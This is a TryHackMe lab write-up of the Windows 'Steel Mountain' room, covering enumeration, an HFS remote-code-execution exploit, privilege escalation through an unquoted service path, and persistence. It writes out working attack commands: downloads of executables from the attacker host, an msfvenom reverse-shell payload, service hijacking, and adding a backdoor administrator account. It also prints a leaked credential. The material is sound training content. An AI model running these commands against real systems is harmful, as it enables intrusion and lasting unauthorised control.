

<h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/thm/thm.md">Writeups</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/thm/2022-05-16-steel-mountain.md">~/Steel-Mountain</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat Writeups/THM/Steel-Mountain.md


*https://tryhackme.com/room/steelmountain*<br />
`Windows` `CVE-2014-6287` `PrivEsc` `UnquotedServicePath`

<br />

## TryHackMe CTF Writeup: Steel Mountain
- [Summary](#summary)
- [1. Enumeration](#1-enumeration)
  - [1.1 Nmap](#11-nmap)
  - [1.2 Web Discovery (Port 80/tcp)](#12-web-discovery-port-80-tcp)
  - [1.3 Web Discovery (Port 8080/tcp)](#13-web-discovery--port-8080-tcp)
- [2. Exploitation](#2-exploitation)
- [3. Post Exploitation](#3-post-exploitation)
  - [3.1 User Flag](#31-user-flag)
  - [3.2 Privilege Escalation](#32-privilege-escalation)
  - [3.3 Creating a shell](#33-creating-a-shell)
  - [3.5 Root Flag](#35-root-flag)
- [4. Advanced Persistence Threat Methods](#4-advanced-persistence-threat-methods)
  - [4.1 Creating a new Administrator user](#41-creating-a-new-administrator-user)
  - [4.2 Proof of Exploit and Persistence](#42-proof-of-exploit-and-persistence)
- [5. Conclusion](#5-conclusion)
- [References](#references)

# Walkthrough

### Summary:

Hack into a Mr. Robot themed Windows machine. Use [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) for initial access, utilize powershell for Windows privilege escalation enumeration to get Administrator access. Since I am personally preparing for the OSCP, I will not be using **Metasploit** and take on a manual exploitation approach instead. The Steel Mountain room (https://tryhackme.com/room/steelmountain) provides instruction on how to gain an initial foothold via Metasploit which is pretty easy, as well as utilizing a pre-written Python script to do the same. 

We will cover the pathways that TryHackMe has laid out in the room, and I will provide a couple of additional tricks, and can help you understand how some of the functions of tools like winPEAS work. The following guide is going to start as usual, and the scanning and initial enumeration will be combined for both. We will then go over the Metasploit exploitation first, followed by how we can do the same almost as quickly using manual exploitation. Once we have completed the necessary challenge requirements I'll cover post-exploitation tasks, and how we can ensure persistence on this machine. So let's get to work!

## 1. Enumeration 

### 1.1 Nmap:<a name="11-nmap"></a>

We start with the reconnaissance by setting up some environment variables and running a Nmap scan checking default scripts and testing for vulnerabilities to get a full picture of our attack surface.

-   **-p-**: scan all ports
-   **--min-rate**: set high scanning rate
-   **-sC**: run default nmap scripts
-   **-sV**: detect service version
-   **-oN**: write output to _nmap/initial_ file


```
┌──(mithlonde💀kali)-[~/ctf/tryhackme/steel-mountain]
└─$ sudo nmap -p$ports -sCV -oN scans/targeted.nmap $IP
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-16 13:20 CEST
Nmap scan report for 10.10.186.155
Host is up (0.036s latency).

PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site does not have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2022-05-16T11:29:55+00:00; +8m15s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2022-05-16T11:29:49+00:00
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2022-05-15T10:07:18
|_Not valid after:  2022-11-14T10:07:18
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
49164/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8m14s, deviation: 0s, median: 8m14s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-05-16T11:29:50
|_  start_date: 2022-05-16T10:07:10
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:20:00:f0:8a:51 (unknown)
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
```

As you can see we have several ports that are open. In particular port **80** and **8080** are both running a web server. SMB on port **445** is of interest as well. Additionally, port **3389** came back with *STEELMOUNTAIN* as a target name and seems to be related to RDP. Everyone has a different methodology here, and you could try to grab a quick win by checking SMB for default or misconfigured access privileges, however you'll find access denied. I typically go for the web servers first, and visiting port 80 will give us the answer to our first question in the room

### 1.2 Web Discovery (Port 80/tcp):<a name="12-web-discovery-port-80-tcp"></a>

The web server on port 80 lead to a simple landing page displaying an employee of the month. With a quick Wappalyzer we can confirm it is indeed a Microsoft IIS httpd 8.5 server as shown in the previous targeted Nmap scan.


While viewing the page source we can also confirm the name of this employee is Bill Harper, which concludes the available information on this particular web server. In a typical CTF or engagement we would want to enumerate the port 80 location some more, but for now we will move on.


### 1.3 Web Discovery (Port 8080/tcp):<a name="13-web-discovery--port-8080-tcp"></a>

Moving on to the web server running on port 8080 got us into a Rejetto HttpFileServer (The HTTPFileServer 2.3 info can also be grabbed from our targeted Nmap scan). In order to determine this is a Rejetto file server, you'll need to click the link in the bottom left corner under Server Information.


---
## 2. Exploitation

Now that we have the service we can determine if it is vulnerable, which it very much is vulnerable to remote code execution. If we use Searchsploit from a terminal we will see that there is also a Metasploit exploit available. The revealed manual RCE exploit for our rejetto target is the one we will be using. which uses a local HTTP server to deliver netcat to the target and then execute it.

A quick google search for rejetto exploit db will deliver the same results as well: https://www.exploit-db.com/exploits/39161


Now that we have an initial shell on this machine as user, we can further enumerate the machine and escalate our privileges to NT AUTHORITY\SYSTEM.



So in order to initialize this exploit successfully, we are are required to use a web server hosting netcat. Since our target is a Windows machine we can copy the nc.exe to the folder we host from our attacker machine and set up a netcat listener to catch our reverse shell. Additionally, the exploit states to run it multiple times for it to succeed. Once to pull netcat from the http server and another time to execute the payload.

If we examine the exploit further we will see that it is a Python script that will require minimal modification to enable us to use it. Specifically, we need to change the IP address to our Kali machine, and modify the port number to whatever we wish. If you have a full install of Kali Linux, you can use the locate command to find this script on your machine, and copy it to whatever directory you wish. From there, let's open it and make the simple change that is necessary. 


We now have access to the employee of the month's user account and can get to work on exploiting this machine.

---
## 3. Post Exploitation

### 3.1 User Flag:<a name="31-user-flag"></a>

Once we're in, this trick usually takes seconds to search the entire drive for the user.txt file.

```
dir "\user.txt" /s
```

-   **dir**: showing files in the current directory, but it can also show files from anywhere in the drive of the system.
-   **/**: tells dir to search from the top-level or root directory of the hard drive.
-   **/s**: used for searching sub-directories.


### 3.2 Privilege Escalation:<a name="32-privilege-escalation"></a>

Now that we have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root.

To enumerate this machine, we will use a script called winPEAS to evaluate the Windows machine and determine any abnormalities.

I figured that `C:\Users\bill\Desktop` would be writable so I used a simple command to download the winPEAS.exe file that is also being hosted through the web server being hosted on the attacking machine.

Downloading a file can either be done per `certutil.exe -urlcache -split -f http://IP/filename.exe` or the following powershell command.

```
cd C:\Users\bill\Desktop
C:\Users\bill\Desktop>powershell -c "Invoke-WebRequest -Outfile winPEAS.exe http://10.11.48.183/winPEASany_ofs.exe
powershell -c "Invoke-WebRequest -Outfile winPEAS.exe http://10.11.48.183/winPEASany_ofs.exe

C:\Users\bill\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Users\bill\Desktop

05/23/2022  10:47 AM    <DIR>          .
05/23/2022  10:47 AM    <DIR>          ..
09/27/2019  05:42 AM                70 user.txt
05/23/2022  10:47 AM         1,799,168 winPEAS.exe
```

Now that we have winPEAS installed, let's run that by firing off winPEAS.exe in the command prompt.  It may take a couple of minutes, but once it's done we can start inspecting the results.  You should find this (I have included additional credentials that are not required for the privilege escalation part, yet are interesting intellectual information leaked still):

>**winPEAS** results notating an Unquoted Service Path vulnerability.


Additionally we can use a long wmic command to do the same, which isn't covered in the room walkthrough. You can find this command in the below image and caption.

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """
```
The above command uses the **Windows Management Instrumentation Command-line (WMIC)** to retrieve information about services installed on a Windows system. It then filters the output to display only services that start automatically, while excluding services located in the C:\Windows directory and services with empty pathnames.

+ **Additional credential leakage (winPEAS)**:

```
Checking Credential manager
  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-windows-vault
    [!] Warning: if password contains non-printable characters, it will be printed as unicode base64 encoded string


     Username:              STEELMOUNTAIN\bill
     Password:               PMBAf5KhZAxVhvqb
     Target:                STEELMOUNTAIN\bill
     PersistenceType:       Enterprise
     LastWriteTime:         9/27/2019 5:22:42 AM
```

As you can see we are provided with a list of vulnerable paths that we might be able to exploit.  And in this case, we are going to exploit the **Advanced SystemCare** path.  We should also make sure that we can actually manipulate the service as needed.  We can do this with the following command to see if the process can actually be stopped and started.

```
C:\Users\bill\Desktop>sc qc AdvancedSystemCareService9
sc qc AdvancedSystemCareService9
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

### 3.3 Creating a shell:<a name="33-creating-a-shell"></a>

Now that we have determined we have start and stop control of the program we will need to create an msfvenom payload and name it Advanced.exe.

```
┌──(mithlonde💀kali)-[~/ctf/tryhackme/steel-mountain]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.48.183 LPORT=666 -f exe > Advanced.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

-   **-p**: specifies type of payload to generate
-   **LHOST**: set listening IP address / TryHackMe tun0 address
-   **LPORT**: set listening port
-   **-f**: specifies output format to use
-   **>**: write output to specified filename

We can utilize our still running Python server to pull the Advanced.exe executable to the unquoted directory winPEAS alerted us to (IOBit directory) before restarting the service.

```
cd C:\Program Files (x86)\IObit\
C:\Program Files (x86)\IObit>certutil.exe -urlcache -split -f http://10.11.48.183/Advanced.exe
certutil.exe -urlcache -split -f http://10.11.48.183/Advanced.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.

C:\Program Files (x86)\IObit>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Program Files (x86)\IObit

05/23/2022  11:22 AM    <DIR>          .
05/23/2022  11:22 AM    <DIR>          ..
05/23/2022  09:22 AM    <DIR>          Advanced SystemCare
05/23/2022  11:21 AM             7,168 Advanced.exe
05/23/2022  11:22 AM                 0 certutil.exe
09/26/2019  10:35 PM    <DIR>          IObit Uninstaller
09/26/2019  08:18 AM    <DIR>          LiveUpdate
               2 File(s)          7,168 bytes
               5 Dir(s)  44,169,154,560 bytes free
```

Then we engage another netcat listener on port 666 from our attacker machine and restart the service on the target machine with two commands (make sure you issue your stop and start commands from inside the IOBit directory).

```
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

Once this command runs, you will see you gain a shell as Administrator on our listener.

### 3.5 Root Flag:<a name="35-root-flag"></a>

As you see we have successfully elevated our privileges to System completing the task. Once again I used the command `dir "root.txt" /s` to search for the root flag.


```
date && cat proof.txt && whoami && hostname && ip addr 
```
---
## 4. Advanced Persistence Threat Methods 

Following this I will cover some post-exploitation tasks that are mostly forgotten about with CTF labs, and we will go over how to ensure lasting persistence in ways that we would if this were a real world engagement. So if you are interested in this, please follow along in the next section.

### 4.1 Creating a new Administrator user:<a name="41-creating-a-new-administrator-user"></a>

At this point we are assuming you have full system control of the machine. If not, please go back through the last sections to get to this point. From here we can start to ensure we have persistence on Steel Mountain. The first, and simplest thing we can do is create a user and grant them Administrator group permissions.

```
C:\Users>net user themayor !Password!123 /add
net user themayor !Password!123 /add
The command completed successfully.

C:\Users>net localgroup "Administrators" themayor /add
net localgroup "Administrators" themayor /add
The command completed successfully.
```

```
C:\Users>net localgroup "Administrators"
net localgroup "Administrators"
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

--------------------------------------------------------------------
Administrator
themayor
The command completed successfully.
```

### 4.2 Proof of Exploit and Persistence:<a name="42-proof-of-exploit-and-persistence"></a>

Now that we have added and confirmed that we are an Administrator, we can try to log on to the Windows Server 2012 (remember that Nmap scan earlier?) using xfreerdp, which proves successful.

```
xfreerdp /u:themayor /p:'!Password!123' /v:10.10.220.194
```


We are met with Desktop access to the Server manager which we can use to prove our full access to the machine.  In this case we will simply check to ensure that our themayor user is added as a user and as a member of the Administrator's group.


If you're conducting a Red Teaming engagement with a skilled Blue Team, they would have detected your exploitation early on, and we wouldn't have been able to proceed with the user creation process. However, in a penetration test where you're not actively facing a defensive team trying to thwart you, this persistence mechanism provides valuable evidence of vulnerabilities within the target system or network. At this juncture, it's important to review your Rules of Engagement (ROE) and scope to determine whether you need to inform the client about the exploit, based on its level of criticality.

---
## 5. Conclusion 

Steel Mountain is a great opportunity to stretch some of those exploitation muscles that we wouldn't normally use outside of the educational or lab environment. It's also proof that exploiting manually shouldn't be feared as many of the exploits we are taking advantage of have already been discovered in the past and we can leverage the exceptional work that other researchers have performed. This machine also shows the necessity of ensuring proper installation of software and a System Administrator's responsibility in running some of the same scans and tests we have here today.

---
## References
1. https://tryhackme.com/room/steelmountain
2. https://www.exploit-db.com/exploits/39161